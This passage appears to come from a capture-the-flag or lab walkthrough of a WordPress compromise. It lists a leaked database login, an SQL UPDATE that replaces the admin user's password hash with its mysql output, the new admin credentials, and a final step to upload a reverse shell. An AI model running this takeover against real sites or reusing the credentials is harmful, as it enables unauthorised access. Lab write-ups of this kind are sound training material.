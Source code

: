 	![](images/Pasted%20image%2020220118190358.png)
	- wordpressuser:CaptainLimpWrist!!!
4. Replace wordpress admin user (richard) password w/ tom's
	```
	# First user in the database is usually the admin
	UPDATE wp_users
	SET user_pass = '$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.'
	WHERE ID = 1;
	```
	```
	mysql> UPDATE wp_users
    -> SET user_pass = '$P$BmXAz/a8CaPZDNTraFb/g6kZeTpijK.'
    -> WHERE ID = 1;
	Query OK, 1 row affected (0.00 sec)
	Rows matched: 1  Changed: 1  Warnings: 0
	```
	- richard:tomtom1
5. Login w/ richard:tomtom1, upload reverse shell 